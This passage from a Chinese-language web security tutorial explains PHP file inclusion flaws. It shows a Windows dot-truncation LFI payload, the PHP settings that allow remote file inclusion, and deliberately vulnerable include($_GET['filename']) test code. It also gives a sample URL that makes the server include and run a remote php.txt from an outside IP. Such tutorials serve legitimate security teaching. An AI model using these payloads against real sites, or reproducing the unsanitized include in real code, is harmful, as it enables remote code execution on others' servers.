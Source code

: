 

###### **点号截断**

条件：windows OS，点号需要长于256

```php
http://www.xxx.com/lfi.php?filename=test.txt.......................................................................
..........................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................................
```



### 远程文件包含漏洞

PHP的配置文件allow_url_fopen和allow_url_include设置为ON，include/require等包含函数可以加载远程文件，如果远程文件没经过严格的过滤，导致了执行恶意文件的代码，这就是远程文件包含漏洞。

* allow_url_fopen = On（是否允许打开远程文件）
* allow_url_include = On（是否允许include/require远程文件）

#### 无限制远程文件包含漏洞

**测试代码：**

```php
<?php
    $filename  = $_GET['filename'];
    include($filename);
?>
```

通过远程文件包含漏洞，包含php.txt可以解析。

```php
http://xxx.com/rfi.php?filename=http://1.1.1.1/php.txt
```



#### 有限制远程文件包含漏洞绕过

测试代码：

```php
<?php include($_GET['filename'] . ".html"); ?>
```
